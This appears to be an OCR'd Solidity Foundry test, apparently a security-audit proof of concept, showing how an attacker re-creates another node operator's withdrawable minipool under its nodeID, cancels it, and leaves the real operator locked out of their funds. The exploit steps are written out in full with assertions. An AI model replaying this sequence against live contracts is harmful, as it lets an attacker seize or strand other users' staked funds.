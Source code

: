 ```
		minipoolMgr.claimAndInitiateStaking(nodeOpMp.nodeID);
		minipoolMgr.claimAndInitiateStaking(hackerMp.nodeID);

		// Update that staking has started
		bytes32 txID = keccak256("txid");
		minipoolMgr.recordStakingStart(nodeOpMp.nodeID, txID, block.timestamp);
		minipoolMgr.recordStakingStart(hackerMp.nodeID, txID, block.timestamp);

		// Skip 14 days of staking duration
		skip(duration);

		// Update that staking has ended and funds are withdrawable
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(nodeOpMp.nodeID, block.timestamp, 10 ether);
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(hackerMp.nodeID, block.timestamp, 10 ether);
		vm.stopPrank();

		/// NOW STATE: WITHDRAWABLE ///

		vm.startPrank(hacker);
		// Hacker creates a minipool using nodeID of nodeOp
		// Hacker is now the owner of nodeOp minipool
		minipoolMgr.createMinipool{value: depositAmt}(nodeOpMp.nodeID, duration, 0.02 ether, avaxAssignmentRequest);

		// Hacker immediatally cancels the nodeOp minipool, validate 1000 AVAX returned
		minipoolMgr.cancelMinipool(nodeOpMp.nodeID);
		assertEq(hacker.balance, depositAmt);
		// Hacker withdraws his own minipool and receives 1000 AVAX + rewards
		minipoolMgr.withdrawMinipoolFunds(hackerMp.nodeID);
		assertEq(hacker.balance, depositAmt + depositAmt + expectedRewards);

		// Hacker withdraws his staked ggp
		staking.withdrawGGP(ggpStakeAmt);
		assertEq(ggp.balanceOf(hacker), ggpStakeAmt);
		vm.stopPrank();

		vm.startPrank(nodeOp);
		// NodeOp tries to withdraw his funds from the minipool
		// Transaction reverts because NodeOp is not the owner anymore
		vm.expectRevert(MinipoolManager.OnlyOwner.selector);
		minipoolMgr.withdrawMinipoolFunds(nodeOpMp.nodeID);

		// NodeOp can still release his staked gpp
		staking.withdrawGGP(ggpStakeAmt);
		assertEq(ggp.balanceOf(nodeOp), ggpStakeAmt);
		vm.stopPrank();
	}
```
